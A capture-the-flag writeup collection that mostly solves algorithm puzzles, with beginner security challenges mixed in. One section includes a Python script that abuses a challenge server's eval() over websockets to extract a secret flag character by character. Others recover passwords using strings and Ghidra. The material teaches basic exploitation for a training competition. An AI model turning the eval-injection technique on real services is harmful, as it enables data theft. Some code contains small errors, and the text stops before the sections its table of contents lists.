










# Round 4 Writeups

- [sanity-check](#sanity-check)
- [overlapping-segments-1](#overlapping-segments-1)
- [ultra-responsive](#ultra-responsive)
- [overlapping-segments-2](#overlapping-segments-2)
- [cat-master](#cat-master)
- [plant-problems-1](#plant-problems-1)
- [bolt-on-security](#bolt-on-security)
- [plant-problems-2](#plant-problems-2)
- [obscurity-security-1](#obscurity-security-1)
- [obscurity-security-2](#obscurity-security-2)
- [candy-bars-1](#candy-bars-1)
- [candy-bars-2](#candy-bars-2)
- [overflow](#overflow)
- [stack-attack](#stack-attack)
- [overlapping-squares-1](#overlapping-squares-1)
- [rip-the-rip](#rip-the-rip)
- [multiple-sums](#multiple-sums)
- [fifty-pointer](#fifty-pointer)
- [ttp](#ttp)
- [overlapping-squares-2](#overlapping-squares-2)


## sanity-check

General Skills (10 points)

### Problem

Here's an easy-peasy-lemon-squeezy flag for you: `cararraCTF{u_s33M_S4ne_EN0ugh_<3}`.

### Writeup

Copy and paste is quite fancy...

## overlapping-segments-1

General skills (20 points)

### Problem

Given two line segments on the number line, find the amount of overlap between them. The test case gives `Q`, the number of queries, on the first line, and the remaining `Q` lines give `L_1`, `R_1`, `L_2`, and `R_2` separated by spaces, where `L_1` and `R_1` are the endpoints of the first segment and `L_2` and `R_2` are endpoints of the second segment. Find the sum of your answers to the queries mod `10^9 + 7`. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

This problem is straightforward but ugly if we just do casework (the 3 cases are whether the lines overlap partially, one entirely encloses the other, or they are entirely disjoint, all of which are pretty annoying to check with inequalities).

However, using a little bit of math, we can make this into a pretty nice 1-liner:

```python
def overlap(l1, r1, l2, r2):
    return max(0, min(r1, r2) - max(l1, l2))
```

We can confirm that this has the right behavior by checking its results in each of the 3 cases, and sure enough it works!

We can now just add the logic for answering all the queries:

```python
f = open('overlapping-segments-1.txt')

q = int(f.readline())

def overlap(l1, r1, l2, r2):
    return max(0, min(r1, r2) - max(l1, l2))

tot = 0
for i in range(q):
    tot += overlap(*map(int, f.readline().split()))
    tot %= 10 ** 9 + 7

print(tot)
```

Running the code, we get an answer of `642890902` and a flag of `cararraCTF{642890902}`.

### Additional Solutions

Java Simple (by kp#0649)

```java
import java.util.*;
import java.io.*; 

public class overlappingsegments1 {
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("overlapping-segments-1.txt")); 
        StringTokenizer st;
        int q = Integer.parseInt(br.readLine());
        int ans = 0, mod = (int)1e9+7;
        for (int i = 0; i<q; i++) {
            st = new StringTokenizer(br.readLine());
            int l1 = Integer.parseInt(st.nextToken());
            int r1 = Integer.parseInt(st.nextToken());
            int l2 = Integer.parseInt(st.nextToken());
            int r2 = Integer.parseInt(st.nextToken());
            ans += Math.max(0,Math.min(r1,r2) - Math.max(l1,l2));
            ans %= mod;
        }
        System.out.println(ans);
    }
}
```

## ultra-responsive

General Skills (30 points)

### Problem

Bob designed a very responsive website and hid something special in there for you...

Relevant links: [ultra-responsive](http://cararra-ctf-files.herokuapp.com/r4/ultra-responsive.html)

### Writeup

Looking at the CSS, it seems that we have to get a device with width 425px to see the flag:



Now you can either just navigate to the PNG to view it, or you can go to the Device Toolbar on chrome and select the one with the right width. Visiting a site is boring, so here's the solution with the toolbar:



And we found our flag: `cararraCTF{use_thOSe_d3V_t00Ls}`.

## overlapping-segments-2

Algorithms (50 points)

### Problem

Given N line segments on the number line, find the total length of the number line that is covered by them. The test case gives N, the number of segments, on the first line, and the remaining Q lines give L_i and R_i where L_i and R_i are the endpoints of the ith segment. Enter your answer in flag format: if your answer is `50`, enter the flag `cararraCTF{50}`.

### Writeup

This is a pretty common problem that can be solved by sorting the line segment start and end points, then just keeping track of whether there is a line segment active (existent) covering each pair of adjacent points.

I did it slightly differently just for the sake of uniqueness and kept track of where a line segment in our final union of line segments begins, then finding out where it ends by keeping track of when the number of active segments goes to zero.

Here is the code:

```python
f = open('overlapping-segments-2.txt')

n = int(f.readline())
startends = []
for i in range(n):
    [l, r] = map(int, f.readline().split())
    startends.append((l, 1))
    startends.append((r, -1))

startends.sort()

active = 0
start_active = -1
tot = 0
for p in startends:
    if active == 0:
        start_active = p[0]
    active += p[1]
    if active == 0:
        tot += p[0] - start_active

print(tot)
```

Running the code, we get an answer of `48622514` and a flag of `cararraCTF{48622514}`.

### Additional Solutions

Java Simple (by kp#0649)

```java
import java.util.*;
import java.io.*; 

public class overlappingsegments2 {
    public static class Line implements Comparable<Line>{
        int start, stop;
        public Line(int start_, int stop_) {
            start = start_;
            stop = stop_;
        }
        @Override
        public int compareTo(Line o) {
            return start - o.start;
        }
    }
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("overlapping-segments-2.txt")); 
        StringTokenizer st;
        int n = Integer.parseInt(br.readLine());
        Line[] lines = new Line[n];
        for (int i = 0; i<n; i++) {
            st = new StringTokenizer(br.readLine());
            int x = Integer.parseInt(st.nextToken());
            int y = Integer.parseInt(st.nextToken());
            lines[i] = new Line(x,y);
        }
        Arrays.sort(lines);
        int ans = lines[0].stop-lines[0].start;
        int prev = lines[0].stop;
        for (int i = 1; i<n; i++) {
            if (lines[i].stop > prev) {
                ans += lines[i].stop-Math.max(lines[i].start,prev);
                prev = lines[i].stop;
            }
        }
        System.out.println(ans);
    }
}
```

## cat-master

General Skills (40 points)

### Problem

Concatenate all the text files (including newlines) given in the zip and find the md5 hash of the result, wrapping your answer with `cararraCTF{..}`. Make sure to traverse the files in lexicographic order (e.g. acc.txt should be concatenated before ba.txt).

Relevant links: [cat-master.zip](http://cararra-ctf-files.herokuapp.com/r4/cat-master.zip)

### Writeup

We could use Python, but Bash is 100 times cleaner.

Just run this command in the `cat-master` directory to get your answer:

```bash
cat * | md5sum
```

Running the command, we get an answer of `ef56d55389f0ae4f178df3086e1b8829` and a flag of `cararraCTF{ef56d55389f0ae4f178df3086e1b8829}`.

## plant-problems-1

Algorithms (100 points)

### Problem

Bob has severe OCD and hates it when his plants are out of order. He wants his plants sorted from shortest to tallest going from left to right, and every pair of plants where a shorter plant is to the right of a taller plant makes him 1 unit angrier. Find how angry Bob is mod 10^9 + 7. The test case gives N, the number of plants, followed by the heights of the plants from left to right on the next line.

### Writeup

We can use merge sort to count inversions recursively. Using this article by [Geeks for Geeks](https://www.geeksforgeeks.org/counting-inversions/), we can come up with the following code:

```python
import sys
sys.setrecursionlimit(1500)

f = open("plant-problems-1.txt")

n = int(f.readline())
mod = 10**9 + 7
plants = list(map(int, f.readline().split()))
sorted_plants = plants[:]

def count_inversions(l, r):
    global sorted_plants
    if l + 1 == r:
        return 0
    m = (l + r) // 2
    tot = count_inversions(l, m) + count_inversions(m, r)
    tot %= mod
    p1 = 0
    p2 = 0
    tmp = [0] * (r-l)
    while p1 < m - l or p2 < r - m:
        if p1 == m - l:
            tmp[p1 + p2] = sorted_plants[m + p2]
            p2 += 1
        elif p2 == r - m:
            tmp[p1 + p2] = sorted_plants[l + p1]
            tot += p2
            p1 += 1
        elif sorted_plants[l+p1] <= sorted_plants[m+p2]:
            tmp[p1+p2] = sorted_plants[l+p1]
            tot += p2
            p1 += 1
        else:
            tmp[p1+p2] = sorted_plants[m+p2]
            p2 += 1
        tot %= mod
    for i in range(l, r):
        sorted_plants[i] = tmp[i-l]
    return tot

print(count_inversions(0, n))
```

Running the code, we get an answer of `975767281` and a flag of `cararraCTF{975767281}`.

## bolt-on-security

Web Exploitation (125 points)

### Problem

Bob coded up a calculator for you as quickly as possible, but he also didn't want you to leak any of his data. So, he made sure to run some checks on your expression to make sure you didn't try anything sneaky. Connect to the challenge using the command `websocat ws://cararra-ctf-files.herokuapp.com/r4/bolt-on-security -E` and see if you can bypass Bob's questionable security measures.

Relevant links: [bolt-on-security.js](http://cararra-ctf-files.herokuapp.com/r4/bolt-on-security.js)

### Writeup

Bob used eval() to speed up his implementation of his calculator, and that should be an immediate red flag. Although we could theoretically try to find out his favorite expression, we might as well just steal the flag without learning more about Bob.

Although we sadly cannot retrieve the flag directly because of Bob's "security measures," we can find hundreds of ways to convert the flag into number form so that the code doesn't flag it as a non-numerical expression. The easiest way is to convert each character to a char code and have Bob evaluate that for us.

Here is the code:

```python
import asyncio
import websockets

async def solve():
    uri = "ws://cararra-ctf-files.herokuapp.com/r4/bolt-on-security"
    async with websockets.connect(uri) as websocket:
        print(f"< {await websocket.recv()}")
        flag = "a"
        while flag[-1] != "}":
            print(f"< {await websocket.recv()}")
            await websocket.send(f"flag.charCodeAt({len(flag)-1})")
            print(f"> flag.charCodeAt({len(flag)})")
            recv = await websocket.recv()
            print(f"< {recv}")
            flag += chr(int(recv))
        print(flag[1:])

asyncio.get_event_loop().run_until_complete(solve())
```

Running it, we get a flag of `cararraCTF{h@rd_2_pr0teCT_inh3r3ntly_InSECURE_functions}`.

## plant-problems-2

Algorithms (150 points)

### Problem

Bob has severe OCD and hates it when his plants are out of order. He wants his plants sorted from shortest to tallest going from left to right. Find the minimum number of swaps Bobs needs to make to get all his plants sorted. The test case gives N, the number of plants, followed by the heights of the plants from left to right on the next line.

Relevant links: [plant-problems-2.txt](http://cararra-ctf-files.herokuapp.com/r4/plant-problems-2.txt)

### Writeup

The code for this problem isn't hard, but finding the solution is a bit tricky. The first think you have to notice is that for a swap to be useful, it should probably put at least once thing in its desired place. Then, we need to find how many times we have to do these useful swaps.

If you draw out where each plant needs to move eventually, you can tell it looks like a graph with a bunch of cycles. We also know moving things around a cycle is pretty easy with swaps, taking k-1 swaps to rotate a cycle of size k.

The last thing we have to notice is that this is optimal: if we ever swap between cycles, we'd just be creating a larger cycle and getting no closer to sorted.

So, since each cycle of size k translates to k-1 swaps, we can simply find the number of cycles and subtract it from N.

Here is the code:

```python
f = open("plant-problems-2.txt")

n = int(f.readline())
plants = list(map(int, f.readline().split()))
sorted_plants = sorted(enumerate(plants), key=lambda x: x[1])

curr_cycle = 0
visited = [False] * n

for i in range(n):
    if visited[i]:
        continue
    visited[i] = True
    curr = sorted_plants[i][0]
    while curr != i:
        visited[curr] = True
        curr = sorted_plants[curr][0]
    curr_cycle += 1

print(n - curr_cycle)
```

Running the code, we get an answer of `999988` and a flag of `cararraCTF{999988}`.

### Additional Solutions

Java Cycle Counter (by kp#0649)

```java
import java.util.*;
import java.io.*;

public class plantproblems2 {
    public static class Pair implements Comparable<Pair>{
        int value, index;
        public Pair(int f_, int s_) {
            value = f_;
            index = s_;
        }
        @Override
        public int compareTo(Pair o) {
            return value - o.value;
        }
    }
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("plant-problems-2.txt"));
        StringTokenizer st;
        int n = Integer.parseInt(br.readLine());
        Pair[] plants = new Pair[n];
        st = new StringTokenizer(br.readLine());
        for (int i = 0; i<n; i++) {
            int u = Integer.parseInt(st.nextToken());
            plants[i] = new Pair(u,i);
        }
        Arrays.sort(plants);
        boolean[] vis = new boolean[n];
        int ans = 0;
        for (int i = 0; i<n; i++) {
            if (vis[i] || plants[i].index == i) continue;
            int cs = 0;
            int j = i;
            while (!vis[j]) {
                vis[j] = true;
                j = plants[j].index;
                cs++;
            }
            ans += Math.max(0,cs-1);
        }
        System.out.println(ans);
    }
}
```

<aside>
💡 Code adapted from [GeeksForGeeks](https://www.geeksforgeeks.org/minimum-number-swaps-required-sort-array/).

</aside>

## obscurity-security-1

Reverse Engineering (50 points)

### Problem

Retrieve Bob's password-protected flag! Connect to the challenge with the command `websocat ws://cararra-ctf-files.herokuapp.com/r4/obscurity-security-1 -E`.

Relevant links: [obscurity-security-1](https://cararra-ctf-files.herokuapp.com/r4/obscurity-security-1)

### Writeup

Turns out that compiling C code doesn't obscure strings, so we can grep for the flag in the string representation of the binary (alternatively you can run the `cat` command on the file and see the flag immediately.

To get the flag itself without any other binary gibberish, you can run the following command:

```bash
strings obscurity-security-1 | grep cararraCTF{.*} -o
```

Running the command, we get a flag of `cararraCTF{always_try_grEP_f1rst}`.

### Additional Solutions

PowerShell (by kp#0649)

```powershell
strings .\obscurity-security-1 | Select-String -Pattern "cararraCTF"
```

<aside>
💡 You need to download the octet stream from the website when you run this command

</aside>

## obscurity-security-2

Reverse Engineering (175 points)

### Problem

Retrieve Bob's password-protected flag! Connect to the challenge with the command `websocat ws://cararra-ctf-files.herokuapp.com/r4/obscurity-security-2 -E`.

Relevant links: [obscurity-security-2](https://cararra-ctf-files.herokuapp.com/r4/obscurity-security-2)

### Writeup

We need a way to see what's going on in the program, and we're given the binary. So, we can either try to read assembly and use the command objdump -D obscurity-security-2 | less, or we can convert the binary back to C code using [Ghidra](https://ghidra-sre.org/).

Putting it in, we get the following:



It seems that the password is visible from here as local_16 and local_e, and since integers are little endian we have to flip around local_16. Thus, our password is `"\x61\x62\x63\x64\x65\x64\x65\x64\x65"`, which translates to "abcdedede".

Connecting to the challenge again and inputting out password, we get a flag of `cararraCTF{r3V3rs!ng_w_gh1dRA_4tw!}`.

## candy-bars-1

Algorithms (75 points)

### Problem

Tom has N candy bars numbered 1..N with differing lengths laid out on the table. Jerry wants to steal them, but depending on Tom's location relative to the table it's more convenient for him to steal different sections of the candy bar layout. Help him quickly determine the total length of candy bar he would obtain if he steals a certain range of them. The test case gives N and Q, followed by a line with N numbers representing the lengths of the candy bars. The next Q lines give a l_i and r_i, indicating that Jerry steals candy bars between l_i and r_i, inclusive. Find the total length for each query, then find the sum of your answers mod 10^9+7.

### Writeup

We basically need to answer sum queries in constant time, which is a pretty common application of prefix sums. Here is the C++ implementation:

```cpp
#include <iostream>
#include <fstream>

using namespace std;

ifstream fin("candy-bars-1.txt");

int n, q;
int ps[1000001];
int mod = 1000000007;

int main() {
  fin >> n >> q;
  for (int i = 1; i <= n; i++) {
    int l;
    fin >> l;
    ps[i] = ps[i-1] + l;
    ps[i] %= mod;
  }
  int tot = 0;
  for (int i = 0; i < q; i++) {
    int l, r;
    fin >> l >> r;
    l--;
    r--;
    tot += ps[r+1] - ps[l];
    tot %= mod;
  }
  cout << (tot + mod) % mod << endl;
}
```

Running the code, we get an answer of `971252265` and a flag of `cararraCTF{971252265}`.

### Additional Solutions

Java Prefix Sums (by kp#0649)

```java
import java.util.*;
import java.io.*;

public class candybars1 {
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("candy-bars-1.txt"));
        StringTokenizer st = new StringTokenizer(br.readLine());
        int n = Integer.parseInt(st.nextToken());
        int q = Integer.parseInt(st.nextToken());
        long[] pre = new long[n+1];
        st = new StringTokenizer(br.readLine());
        for (int i = 1; i<=n; i++) {
            pre[i] = Integer.parseInt(st.nextToken()) + pre[i-1];
        }
        int mod = (int)1e9+7;
        long ans = 0;
        for (int i = 0; i<q; i++) {
            st = new StringTokenizer(br.readLine());
            int start = Integer.parseInt(st.nextToken());
            int stop = Integer.parseInt(st.nextToken());
            ans += pre[stop]-pre[start-1];
            ans %= mod;
        }
        System.out.println(ans);
    }
}
```

## candy-bars-2

Algorithms (200 points)

### Problem

Tom has N candy bars numbered 1..N with differing lengths laid out on the table. Jerry wants to steal them, but depending on Tom's location relative to the table it's more convenient for him to steal different sections of the candy bar layout. Help him quickly determine the maximum length of candy bar he would obtain if he steals a certain range of them. The test case gives N and Q, followed by a line with N numbers representing the lengths of the candy bars. The next Q lines give a l_i and r_i, indicating that Jerry steals candy bars between l_i and r_i, inclusive. Find the max length for each query, then find the sum of your answers mod 10^9+7.

### Writeup

Although segment trees do work to solve this problem, [sparse tables](https://www.geeksforgeeks.org/range-minimum-query-for-static-array/) are actually much easier to implement and are faster for querying (although preprocessing complexity is still `N log N` and it requires `N log N` memory).

The basic concept is to store the max for subarrays with lengths of powers of 2. We then take the biggest power of 2 less than the length of the query interval and take the max of the subarray starting at l_i and the subarray ending at r_i with that length. 

Here's the code:

```cpp
#include <iostream>
#include <fstream>

using namespace std;

ifstream fin("candy-bars-2.txt");

int n, q;
int ps[1000001];
int arr[1000001][25];
int mod = 1000000007;

int pow(int a, int b) {
  if (b == 0)
    return 1;
  int x = pow(a, b/2);
  if (b%2 == 0) {
    return x * x;
  } else {
    return x * x * a;
  }
}

int main() {
  fin >> n >> q;
  for (int i = 0; i < n; i++) {
    int l;
    fin >> l;
    ps[i] = l;
  }
  for (int j = 0; 1 << j <= n; j++) {
    for (int i = 0; i + (1 << j) <= n; i++) {
      if (j == 0) {
        arr[i][j] = ps[i];
      } else {
        arr[i][j] = max(arr[i][j-1], arr[i + (1 << (j-1))][j-1]);
      }
    }
  }

  int tot = 0;
  for (int i = 0; i < q; i++) {
    int l, r;
    fin >> l >> r;
    l--;
    r--;
    int f = floor(log2(r-l+1));
    tot += max(arr[l][f], arr[r-(1 << f)+1][f]);
    tot %= mod;
  }
  cout << tot << endl;
}
```

Running the code, we get an answer of `669904820` and a flag of `cararraCTF{669904820}`.

### Additional Solutions

Java Segment Tree (by kp#0649)

```java
import java.util.*;
import java.io.*;

public class candybars2 {
    static int n; 
    static int[] t;
    public static void build(int[] a, int v, int tl, int tr) {
        if (tl == tr) {
            t[v] = a[tl];
        }
        else {
            int tm = (tl+tr)/2; 
            build(a,v*2,tl,tm);
            build(a,v*2+1,tm+1,tr);
            t[v] = Math.max(t[v*2],t[v*2+1]);
        }
    }
    public static int max(int v, int tl, int tr, int l, int r) {
        if (l > r) {
            return 0;
        }
        if (l == tl && r == tr) {
            return t[v];
        }
        int tm = (tl+tr)/2;
        return Math.max(max(v*2, tl, tm, l, Math.min(r, tm)),max(v*2+1, tm+1, tr, Math.max(l, tm+1), r));
    }
    public static void main(String[] args) throws IOException {
        BufferedReader br = new BufferedReader(new FileReader("candy-bars-1.txt"));
        StringTokenizer st = new StringTokenizer(br.readLine());
        n = Integer.parseInt(st.nextToken());
        int q = Integer.parseInt(st.nextToken());
        t = new int[4*n];
        int[] a = new int[n]; 
        st = new StringTokenizer(br.readLine());
        for (int i = 0; i<n; i++) {
            a[i] = Integer.parseInt(st.nextToken());
        }
        build(a,1,0,n-1);
        long ans = 0;
        int mod = (int)1e9+7;
        for (int i = 0; i<q; i++) {
            st = new StringTokenizer(br.readLine());
            int start = Integer.parseInt(st.nextToken());
            int stop = Integer.parseInt(st.nextToken());
            ans += max(1,0,n-1,start-1,stop-1);
            ans %= mod;
        }
        System.out.println(ans);
    }
}
```

<aside>
